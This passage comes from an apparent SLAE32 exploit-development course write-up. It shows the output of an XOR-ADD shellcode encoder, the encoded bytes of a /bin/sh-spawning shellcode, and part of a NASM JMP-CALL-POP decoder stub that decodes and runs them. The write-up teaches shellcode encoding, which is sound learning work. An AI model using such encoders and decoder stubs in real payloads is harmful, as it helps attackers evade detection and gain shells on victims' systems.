 Then we execute the script and get the encrypted shellcode.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/4_Custom_encoder$ ./xor-add-encoder.py 
XOR - ADD Encoded shellcode: 

\x9c\x6b\xfb\xc3\x86\x86\xda\xc3\xc3\x86\xc9\xc4\xc5\x24\x4a\xfb\x24\x49\xfa\x24\x4c\x1b\xa2\x68\x2b
0x9c,0x6b,0xfb,0xc3,0x86,0x86,0xda,0xc3,0xc3,0x86,0xc9,0xc4,0xc5,0x24,0x4a,0xfb,0x24,0x49,0xfa,0x24,0x4c,0x1b,0xa2,0x68,0x2b,
Shellcode Length: 25
```

Then, we copy the shellcode in `NASM` format (`0x`) and we will paste it in the `Assembly` program (`xor-decoder-marker.nasm`) for decryption.

## Decryption

The technique that is used to decrypt and execute the shellcode is called `JMP-CALL-POP`. We basically jump to a procedure that performs a `call` instruction on another procedure and this inctruction also pushes the address of the next instruction to the stack, which is the shellcode address. Then the `decode` procedure is repeated until all the bytes of the shellcode are decrypted and the shellcode can now get executed, meaning "/bin/sh" gets executed. In the following explanation, the program is explained through its flow.

With the following instruction we make a short jump to the `call_decoder` procedure:

```nasm
	jmp short call_decoder	; jump short to call_decoder procedure
```

The `call_decoder` procedure is declared and the first instruction calls the `decoder` procedure and pushes the memory address of the next instruction to the stack, which is the shellcode. Then, the encrypted bytes of the shellcode are initialized inside another procedure called `Shellcode`. It's important to note that we add another byte to the encrypted shellcode from the `Python` script because even when we don't know the length of the shellcode, it will be calculated dynamically. This happens because the last byte that we add is the same as the `XOR` key and when the operation happens it will result to a nullbyte. That's where the shellcode stops. In our case the value `1` is added to each byte and in order to retrieve the initial value, `1` has to be subtracted from the byte. So, the `XOR` key is `0xaa` and in `Shellcode` we put `0xab`.

```nasm
call_decoder:

	call decoder
	Shellcode: db 0x9c,0x6b,0xfb,0xc3,0x86,0x86,0xda,0xc3,0xc3,0x86,0xc9,0xc4,0xc5,0x24,0x4a,0xfb,0x24,0x49,0xfa,0x24,0x4c,0x1b,0xa2,0x68,0x2b,0xab				; encrypted shellcode with 0xab at the end (key + 1)
```

Then we go to the `decoder` procedure, where the memory address of shellcode is saved at `ESI` register.

```nasm
decoder: 
	pop esi			; pop memory address pointing at shellcode from the stack
```
